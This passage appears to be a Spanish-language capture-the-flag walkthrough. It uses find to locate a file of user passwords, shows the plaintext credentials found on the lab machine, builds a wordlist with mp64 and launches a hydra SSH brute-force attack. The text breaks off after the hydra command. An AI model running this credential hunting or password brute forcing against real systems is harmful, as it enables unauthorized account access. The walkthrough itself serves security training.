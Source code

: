 ```
/secret
```

Vemos que en la propia raiz hay una carpeta llamada asi, si vamos dentro de ella veremos un archivo llamado `confidencial.txt` que contiene lo siguiente.

```
There is a super secret file that no one but the boss should read, because there are some user passwords.

You have to move the passwords_users.txt file to a more secure place.
```

Nos da otra pista de que en alguna parte hay un archivo llamado `passwords_users.txt` por lo que lo buscaremos.

```shell
find / -name 'passwords_users.txt' 2>/dev/null
```

Info:

```
/usr/local/bin/passwords_users.txt
```

Y veremos que esta en esa ubicacion, si leemos el archivo pone lo siguiente.

```
User passwords:

e1i0t:eliotelmejor
an0n1mat0:XXyanonymous
root:root

There are some outdated passwords, but I don't remember an0n1mat0's entire password, I know that where the two
```

Nos comenta que la contraseña de este usuario esta a medias, por lo que tendremos que generar un diccionario sustituyendo esas dos X's por letras del abecedario minusculas, lo haremos con la siguiente herramienta.

### mp64

```shell
mp64 '?l?lyanonymous' > passwords.txt
```

Con esto habremos generado un diccionario de palabras con todas las posibles combinaciones de ese nombre sustituyendo `?l?l` por letras del abecedario en minusculas.

### hydra

```shell
hydra -l an0n1mat0 -P passwords.txt ssh://<IP> -t 64
```

